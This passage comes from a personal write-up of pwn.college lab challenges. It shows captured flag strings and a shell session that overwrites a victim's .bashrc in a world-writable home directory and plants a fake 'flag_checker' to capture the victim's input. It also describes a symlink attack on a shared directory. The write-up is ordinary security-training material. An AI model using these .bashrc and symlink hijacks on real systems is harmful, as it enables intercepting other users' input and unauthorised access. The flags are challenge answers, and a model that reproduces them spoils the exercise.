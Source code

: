## What I learned  
How to hijack a command in a user's `.bashrc` to intercept user input.  

## References  
pwn college description  

---

# 3. Overshared Directories
Exploiting world-writable directories  
## My solve  
**Flag:** `pwn.college{8HBe6dgu6XCQD0zsy4WFt3AX3u_.0FM0EzNxwiMxkjNzEzW}`  
I used the world-writable permissions on `/home/zardus` to create or modify files, enabling me to execute unauthorized actions within that directory.  

```bash
acker@shenanigans~overshared-directories:~$ nano .bashrc
hacker@shenanigans~overshared-directories:~$ nano flag_checker 
hacker@shenanigans~overshared-directories:~$ rm /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ cp ./.bashrc /home/zardus/
hacker@shenanigans~overshared-directories:~$ /challenge/victim 
Username: zardus
Password: ***********
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag
*************************************************************pwn.college{8HBe6dgu6XCQD0zsy4WFt3AX3u_.0FM0EzNxwiMxkjNzEzW}
exit
exit
```

## What I learned  
The security implications of having world-writable directories and how to exploit them.  

## References  
pwn college description  

---

# 4. Tricky Linking
Creating symbolic links to exploit shared directories  
## My solve  
**Flag:** `pwn.college{4auLEF6sVFkKDr19oKmdCXg4GVR.0VM0EzNxwiMxkjNzEzW}`  
I replaced a sensitive file with a symbolic link in the shared directory so that unauthorized commands would follow the link to their intended targets, allowing me to execute them.  
